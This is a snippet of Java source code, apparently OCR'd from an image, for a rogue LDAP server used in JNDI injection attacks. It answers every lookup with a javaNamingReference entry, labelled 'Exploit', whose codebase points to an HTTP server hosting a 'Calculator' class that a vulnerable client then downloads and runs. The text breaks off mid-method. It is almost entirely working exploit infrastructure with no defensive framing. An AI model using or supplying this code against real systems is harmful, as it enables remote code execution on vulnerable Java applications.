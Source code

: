     import com.unboundid.ldap.sdk.LDAPResult;
    import com.unboundid.ldap.sdk.ResultCode;

    public class LDAPServer {
        private static final String LDAP_BASE = "dc=example,dc=com";


        public static void main (String[] args) {

            String url = "http://127.0.0.1:8081/#Calculator";
            int port = 1234;


            try {
                InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
                config.setListenerConfigs(new InMemoryListenerConfig(
                        "listen",
                        InetAddress.getByName("0.0.0.0"),
                        port,
                        ServerSocketFactory.getDefault(),
                        SocketFactory.getDefault(),
                        (SSLSocketFactory) SSLSocketFactory.getDefault()));

                config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(url)));
                InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
                System.out.println("Listening on 0.0.0.0:" + port);
                ds.startListening();

            }
            catch ( Exception e ) {
                e.printStackTrace();
            }
        }

        private static class OperationInterceptor extends InMemoryOperationInterceptor {

            private URL codebase;

            public OperationInterceptor ( URL cb ) {
                this.codebase = cb;
            }

            @Override
            public void processSearchResult ( InMemoryInterceptedSearchResult result ) {
                String base = result.getRequest().getBaseDN();
                Entry e = new Entry(base);
                try {
                    sendResult(result, base, e);
                }
                catch ( Exception e1 ) {
                    e1.printStackTrace();
                }

            }


            protected void sendResult ( InMemoryInterceptedSearchResult result, String base, Entry e ) throws LDAPException, MalformedURLException {
                URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
                System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);
                e.addAttribute("javaClassName", "Exploit");
                String cbstring = this.codebase.toString();
                int refPos = cbstring.indexOf('#');
                if ( refPos > 0 ) {
                    cbstring = cbstring.substring(0, refPos);
                }
                e.addAttribute("javaCodeBase", cbstring);
                e.addAttribute("objectClass", "javaNamingReference");
                e.addAttribute("javaFactory", this.codebase.getRef());
                result.sendSearchEntry(e);